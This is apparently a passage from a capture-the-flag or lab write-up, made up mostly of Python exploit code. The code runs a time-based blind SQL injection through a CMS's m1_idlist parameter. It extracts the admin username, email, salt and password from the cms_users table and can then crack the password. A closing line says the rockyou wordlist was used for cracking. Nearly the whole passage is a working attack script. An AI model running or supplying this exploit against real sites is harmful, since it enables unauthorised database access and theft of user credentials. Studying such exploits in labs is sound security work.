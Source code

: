 ```python
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" \
            + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" \
            + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print colored("[*] Now try to crack password")
    crack_password()

beautify_print()
```
I used the `rockyou` wordlist as the wordlist to crack the password
